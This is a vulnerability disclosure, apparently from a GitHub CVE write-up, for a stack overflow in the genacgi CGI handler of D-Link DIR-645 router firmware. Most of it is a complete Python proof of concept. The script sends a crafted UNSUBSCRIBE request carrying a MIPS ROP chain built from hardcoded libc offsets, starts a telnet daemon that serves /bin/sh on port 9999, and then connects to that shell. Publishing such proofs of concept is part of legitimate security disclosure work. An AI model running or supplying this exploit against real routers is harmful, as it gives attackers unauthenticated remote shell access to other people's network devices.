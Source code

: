 ## D-Link DIR-645 genacgi Stack Overflow

**Vender**: D-Link

**Firmware version**: DIR 645A1 1.06B01_Beta01

**Exploit Author**: Insight

**Vendor Homepage**: [http](http://www.dlink.com.cn/): [//www.dlink.com.cn/](http://www.dlink.com.cn/)

## Detailed description

This vulnerability exists in the genacgi_main function in the cgibin program. v28 is the content behind request_uri "service=". When the request is unsubscribe, sprintf formats it on the stack, causing a stack overflow.

![img](cve.assets/clip_image002.jpg)

## POC

```python
# python3
from pwn import *
from socket import *
from os import *
from time import *
context(os = 'linux', arch = 'mips')
 
libc_base = 0x2aaf8000
 
s = socket(AF_INET, SOCK_STREAM)
 
cmd = b'telnetd -p 9999 -l /bin/sh;'
payload = b'a'*462
payload += p32(libc_base + 0x53200 - 1) # s0  system_addr - 1
payload += p32(libc_base + 0x169C4) # s1  addiu $s2, $sp, 0x18 (=> jalr $s0)
payload += b'a'*4 # fp
payload += p32(libc_base + 0x32A98) # ra  addiu $s0, 1 (=> jalr $s1)
payload += b'a'*0x18 # padding
payload += cmd
 
msg = b"UNSUBSCRIBE /gena.cgi?service=" + payload + b" HTTP/1.1\r\n"
msg += b"Host: localhost:49152\r\n"
msg += b"SID: 1\r\n\r\n"
 
s.connect((gethostbyname("192.168.0.1"), 49152))
s.send(msg)

sleep(1)
system('telnet 192.168.0.1 9999')
```



![image-20221129165859032](cve.assets/image-20221129165859032.png)
